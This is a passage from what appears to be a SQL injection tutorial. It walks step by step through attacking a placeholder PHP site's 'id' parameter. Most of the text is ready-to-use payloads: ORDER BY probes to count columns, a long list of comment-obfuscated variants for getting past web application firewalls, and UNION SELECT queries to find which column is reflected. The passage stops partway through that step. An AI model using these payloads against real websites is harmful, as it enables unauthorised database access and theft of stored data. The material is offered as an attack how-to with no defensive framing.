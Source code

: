```http://domain.com/index.php?id=1```  
This query musn't shows up error, since there is no lower number than 1  

- If the payload shows up error, try setting a negative value:  
```http://domain.com/index.php?id=-1' order by 1-- -```  
This query musn't shows up error, since there is no lower number than 1  

  - If the payload shows up error, try removing the quote which might cause SQL error:
  ```http://domain.com/index.php?id=605 order by 1-- -```  
  ```http://domain.com/index.php?id=-605 order by 1-- -```  
 These both queries musn't shows up error. If error is still ocurring, try the following payloads:

    - If both of payloads don't work, it is problably a WAF blocking it. Try the following blocks until you won't see WAF detection or SQL syntax error.  
```http://domain.com/index.php?id=1' order by 1 desc-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' group by 1-- -```  
```http://domain.com/index.php?id=1' /**/ORDER/**/BY/**/ 1-- -```  
```http://domain.com/index.php?id=-1' /*!order*/+/*!by*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1'/*!50000ORDER*//**//*!50000BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!12345ORDER*/+/*!BY*/ 1-- -```  
```http://domain.com/index.php?id=1' /*!50000ORDER BY*/ 1-- -```  
```http://domain.com/index.php?id=1' order/**_**/by 1-- -```  
```http://domain.com/index.php?id=1\ order by 1-- -```  
```http://domain.com/index.php?id=1' order by 1 asc-- -```  
```http://domain.com/index.php?id=1' group by 1 asc-- -```  
```http://domain.com/index.php?id=1' AND 0 order by 1-- -```  
    
    - If none of the payloads didn't bypass WAF, try again the payloads by following the 2 rules below:
      - Add a minus (-) before 1 (example: ```?id=-1' /**/ORDER/**/BY/**/ 1-- -```)  
      - Remove the quote (') after the parameter value (example: ```?id=1 /**/ORDER/**/BY/**/ 1-- -```)

In this case, the payload ```?id=1 order by 1-- -``` worked and website loads successfuly. Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up: 

```http://domain.com/index.php?id=1 order by 1-- -``` no error  
```http://domain.com/index.php?id=1 order by 2-- -```  no error  
```http://domain.com/index.php?id=1 order by 3-- -```  no error  
```http://domain.com/index.php?id=1 order by 4-- -```  no error  
```http://domain.com/index.php?id=1 order by 5-- -```  error: ```Unknown column '5' in 'order clause'Unknown column '5' in 'order clause'```  

This means there are only 4 columns. Now we have to find which one of these 4 columns have information.  

## Find the vulnerable column where information are stored using 'UNION SELECT' query  

Using a simple query, we determine which of the 4 columns reflect our input using. Only 1 of these payloads will run without **syntax error**. *NOTE: If none worked, try the same payloads, but remove the quote (') after number 1.*    

```http://domain.com/index.php?id=1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1 Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1'+UNION+ALL+SELECT+null,null,null,null--+-```  
```http://domain.com/index.php?id=1' Union Select null,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,null,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,null,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,null-- -```  
```http://domain.com/index.php?id=.1' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=-1' div 0' Union Select 1,2,3,4-- -```  
```http://domain.com/index.php?id=1' Union Select 1,2,3,4 desc-- -```  
```http://domain.com/index.php?id=1' AND 0 Union Select 1,2,3,4-- -```  

Website must successfully load and we will see a number (in our case between 1-4)  

  - If the queries will not work, try the following payloads until you see the number:  
  
```